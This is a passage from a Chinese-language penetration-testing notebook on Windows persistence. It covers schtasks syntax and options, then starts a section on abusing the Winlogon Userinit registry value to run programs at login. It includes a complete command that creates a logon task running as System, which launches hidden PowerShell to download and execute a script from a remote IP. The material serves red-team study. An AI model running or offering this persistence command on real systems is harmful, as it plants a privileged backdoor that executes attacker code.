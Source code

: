 schtasks一些参数：

```text
schtasks /create /tn TaskName /tr TaskRun /sc schedule [/mo modifier] [/d day] [/m month[,month...] [/i IdleTime] [/st StartTime] [/sd StartDate] [/ed EndDate] [/s computer [/u [domain\]user /p password]] [/ru {[Domain\]User | "System"} [/rp Password]] /?
```

schtasks的执行如下

```text
schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''

http://1.1.2.21:80/Zzz'''))'" /sc onlogon /ru System
```

大家可以根据需求替换里面的参数

描述:允许管理员创建、删除、查询、更改、运行和中止本地或远程系统上的计划任务。  
   
参数列表:

```text
/Create         创建新计划任务。
/Delete         删除计划任务。
/Query          显示所有计划任务。
/Change         更改计划任务属性。
/Run            按需运行计划任务。
/End            中止当前正在运行的计划任务。
/ShowSid        显示与计划的任务名称相应的安全标识符。
/?              显示此帮助消息。
```

## 5、用户登陆初始化

### 1、winlogon进程执行login scripts

Userinit的作用是用户在进行登陆初始化设置时，WinLogon进程会执行指定的login scripts，所以我们可以修改它的键值来添加我们要执行的程序 

注册表路径为：HKLM\_LOCAL\_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon\Userinit，我们添加一个计算器，多个程序用逗号隔开

![](../../.gitbook/assets/image%20%28350%29.png)
